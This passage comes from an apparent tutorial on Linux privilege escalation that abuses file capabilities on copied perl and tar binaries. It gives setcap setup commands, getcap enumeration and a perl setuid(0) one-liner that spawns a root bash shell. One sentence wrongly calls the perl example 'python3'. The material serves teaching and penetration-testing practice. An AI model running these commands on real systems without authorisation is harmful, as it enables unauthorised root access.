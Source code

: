 ![](https://i0.wp.com/1.bp.blogspot.com/-KJSuOanH3hs/XeIpWCf4PEI/AAAAAAAAhuE/CF8cYc7dVModbfoIf713i_j6OrMYF9KcACLcBGAsYHQ/s1600/6.png?w=687&ssl=1)

**Perl Capability**

We have another example “perl” which is same as above where the admin supposed to used capabilities, for the perl program that should be executed by specific user let’s say for user “demo”. This can be accomplished with following commands on the host machine.

```
which perl  
cp /usr/bin/perl /home/demo/  
setcap cap\_setuid+ep /home/demo/perl
```

As a result, the user demo received the privilege to run the python3 program as root because here admin has upraised the privilege by using cap\_setuid+ep which means all privilege is assigned to the user for that program.

![](https://i2.wp.com/1.bp.blogspot.com/-PiPUhnAFgOQ/XeIpWVyQL1I/AAAAAAAAhuI/Eysz7iYu4wU1f09qvyHPK1Los7UQ3ifNgCLcBGAsYHQ/s1600/7.png?w=687&ssl=1)

**Exploiting capability using perl**

Repeat above step for exploit perl program to escalate the root privilege:

```
getcap -r / 2>/dev/null  
pwd  
ls -al perl  
./perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'  
id
```

![](https://i0.wp.com/1.bp.blogspot.com/-e7Jo3nTW2Ts/XeIpWdCv7wI/AAAAAAAAhuM/PH_uLypq918rSbm47oYAbFXtVleS0B1hwCLcBGAsYHQ/s1600/8.png?w=687&ssl=1)

**Tar Capability**

We have another example “tar” which is same as above where the admin supposed to used capabilities to extract high privilege file that are restricted for other users, that should be extracted by specific user let’s say by user “demo”.

Let’s take an example: The admin wants to assign a role, where the user “demo” can take the backup of files as root, for this task the admin has set read capability on tar program. This can be accomplished with following commands on the host machine.

```
which tar  
cp /bin/tar /home/demo/  
setcap cap\_dac\_read\_search+ep /home/demo/tar
```

![](https://i0.wp.com/1.bp.blogspot.com/-WRI1ndyugDw/XeIpWpWhMLI/AAAAAAAAhuQ/9MDAJYhZ6NgHIUb__kWJ1QnYHdlUqPjCgCLcBGAsYHQ/s1600/9.1.png?w=687&ssl=1)

**Exploiting capability using tar**

Repeat same procedure to escalate the privilege, take the access of host machine as a local user and move ahead for privilege escalation. Since this time admin has use CAP\_DAC\_READ\_SEARCH that will help us to bypass file read permission checks and directory read and execute permission checks.
